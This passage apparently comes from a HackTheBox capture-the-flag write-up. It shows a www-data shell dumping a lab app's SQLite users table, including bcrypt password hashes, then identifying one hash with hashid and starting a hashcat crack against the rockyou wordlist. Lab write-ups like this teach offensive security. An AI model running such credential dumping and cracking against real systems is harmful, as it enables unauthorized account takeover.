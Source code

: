 ![image](imgs/users-db.png)

```bash
www-data@environment:~/app/database$ sqlite3 database.sqlite
sqlite3 database.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
cache                  jobs                   sessions
cache_locks            mailing_list           users
failed_jobs            migrations
job_batches            password_reset_tokens
sqlite> select * from users;
select * from users;
1|Hish|hish@environment.htb||$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi||2025-01-07 01:51:54|2025-01-12 01:01:48|hish.png
2|Jono|jono@environment.htb||$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm||2025-01-07 01:52:35|2025-01-07 01:52:35|jono.png
3|Bethany|bethany@environment.htb||$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.||2025-01-07 01:53:18|2025-01-07 01:53:18|bethany.png
sqlite>
```

We see hashed password of our hish user we could try to crack using hashcat:

```bash
~/HackTheBox/environment > echo '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi' > hish_hash.txt
~/HackTheBox/environment > hashid hish_hash.txt
--File 'hish_hash.txt'--
Analyzing '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hish_hash.txt'--%
~/HackTheBox/environment > hashcat hish_hash.txt -m 3200 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v7.1.2) starting
```
